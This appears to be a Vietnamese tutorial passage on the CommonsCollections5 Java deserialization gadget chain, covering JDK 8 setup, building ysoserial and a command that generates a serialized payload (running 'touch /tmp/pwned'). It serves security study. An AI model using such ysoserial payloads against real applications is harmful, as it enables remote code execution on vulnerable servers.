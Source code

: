 ## Phân tích chain nhập môn CC5

`CommonsCollections5` nằm trong bộ gadgetchains CommonsCollections 1-7 nhằm khai thác thư viện Commons Collections, bộ gadgetchain này về cơ bản cũng đều lợi dụng class `InvokerTransformer` để invoke method.

CC5 lợi dụng lớp `BadAttributeValueExpException` của JDK ≤ 8u76 kết hợp với các lớp của Apache Commons‑Collections  cũ để thực thi lệnh tùy ý trong quá trình deserialization.

### Khởi tạo payload và setup môi trường biên dịch

Đầu tiên kiểm tra xem máy có những JDK gì

```bash
sudo update-alternatives --list java

/usr/lib/jvm/java-17-openjdk-amd64/bin/java
/usr/lib/jvm/java-21-openjdk-amd64/bin/java
/usr/lib/jvm/java-8-openjdk-amd64/jre/bin/java
/usr/lib/jvm/openlogic-openjdk-8-hotspot-amd64/bin/java
```

Có thể thấy hiện tại mình đang có 4 "loại" java.  Ta có thể lựa chọn phiên bản như sau

```bash
sudo update-alternatives --config java

There are 4 choices for the alternative java (providing /usr/bin/java).

  Selection    Path                                                     Priority   Status
------------------------------------------------------------
* 0            /usr/lib/jvm/java-21-openjdk-amd64/bin/java               2111      auto mode
  1            /usr/lib/jvm/java-17-openjdk-amd64/bin/java               1711      manual mode
  2            /usr/lib/jvm/java-21-openjdk-amd64/bin/java               2111      manual mode
  3            /usr/lib/jvm/java-8-openjdk-amd64/jre/bin/java            1081      manual mode
  4            /usr/lib/jvm/openlogic-openjdk-8-hotspot-amd64/bin/java   0         manual mode

Press <enter> to keep the current choice[*], or type selection number: 3
update-alternatives: using /usr/lib/jvm/java-8-openjdk-amd64/jre/bin/java to provide /usr/bin/java (java) in manual mode
```

Ta cũng có thể chọn phiên bản cho javac tương tự bằng command: `sudo update-alternatives --config javac`

Ở đây mình chọn phiên bản 8 cho cả java và javac để có thể complie yoserial trực tiếp trên host thay vì sử dụng docker.

Sau khi thành công biên dịch và đóng gói bằng command `mvn clean package -DskipTests`, ta có thể thử chạy sinh payload bằng command như sau, ở đây ta thêm pipeline base64 cho dễ quan sát, hoặc cũng có thể redirect đến `payload.ser`

```bash
java -jar target/ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections1 "touch /tmp/pwned" | base64 -w0
```
